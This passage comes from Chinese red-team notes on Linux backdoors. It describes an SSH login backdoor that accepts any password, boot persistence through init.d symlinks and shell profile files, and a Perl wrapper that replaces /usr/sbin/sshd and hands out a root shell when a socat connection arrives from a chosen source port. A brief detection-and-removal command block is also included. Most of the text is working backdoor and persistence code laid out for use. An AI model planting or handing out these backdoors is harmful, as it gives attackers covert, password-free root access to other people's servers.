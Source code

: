 直接使用```ssh -p 65534 root@x.x.x.x登陆，密码随意输入任意值即可登陆```

![image-20200403085848959](/Users/dawson0x00/Desktop/红蓝对抗/Linux后门.assets/image-20200403085848959.png)



**优势：隐蔽性较弱，适合短时间连接。
劣势：重启后会断开，无法后弹连接。**

##### 改进一：加入开启自启动

姿势一：

需要开机启动自己的脚本时，只需要将可执行脚本丢在 `/etc/init.d` 目录下，然后在 `/etc/rc.d/rc*.d` 中建立软链接即可

```bash
ln -s /etc/init.d/test.sh /etc/rc.d/rc3.d/S100ssh  # 必须将启动要执行的脚本方正/etc/init.d/目录下
chmod +x /etc/init.d/test.sh
ln -s /etc/init.d/sshd /etc/rc.d/rc3.d/S100ssh
```

此处 sshd 是具体服务的脚本文件，S100ssh 是其软链接，S 开头代表加载时自启动；如果是 K 开头的脚本文件，代表运行级别加载时需要关闭的。

**检测清除**

类似后门会开放端口，在网络连接中可以查看

```bash
netstat -antp|grep -E "chfn|su|chsu"  #查找异常端口及进程
ps -ef|grep 29604 |xargs kill -9 查找对应的进程并删除
kill -9 
ls -l /tmp/ 查找/tmp目录下是否有chfn su chsu 文件，然后删除
#grep -E 选项可以用来扩展选项为正则表达式。 如果使用了grep 命令的选项-E，则应该使用 | 来分割多个pattern，以此实现OR操作。 如：grep -E 'pattern1|pattern2' filename
```

#####改进二：写入bash环境

bash_profile 或者bashrc 

注意 bash_profile 是在登录的 shell 执行的,bashrc 是在非登录的 shell 执行,即如果你只是想每次在登录的时候让它去执行,这个时候你可以把你的命令写在 .bash_profile,如果你想每次打开一个新的终端的时候都去执行,那么应该把命令写在 .bashrc 中.

### 6. SSH认证流程后门

> **原理：** SSH登陆时，系统处理登陆请求的文件时/usr/sbin/sshd 那么就可以修改该文件，在登陆时执行特定操作 参考链接：[某SSH后门分析](https://www.freebuf.com/articles/system/140880.html)

**测试一(目前centos下测试成功)**

```bash
mv /usr/sbin/sshd /usr/bin/sshd
cd /usr/sbin/ && touch sshd
## 然后vim  sshd 增加以下shell脚本
#!/usr/bin/perl
exec"/bin/sh"if(getpeername(STDIN)=~/^..zf/);
exec{"/usr/bin/sshd"}"/usr/sbin/sshd",@ARGV;


chmod u+x sshd
service sshd restart  或者 /etc/init.d/sshd restart  #重启sshd服务

然后再控制端执行：
socat STDIO TCP4:X.X.X.X:22,sourceport=31334
socat STDIO TCP4:X.X.X.X:22,bind=:31334
```
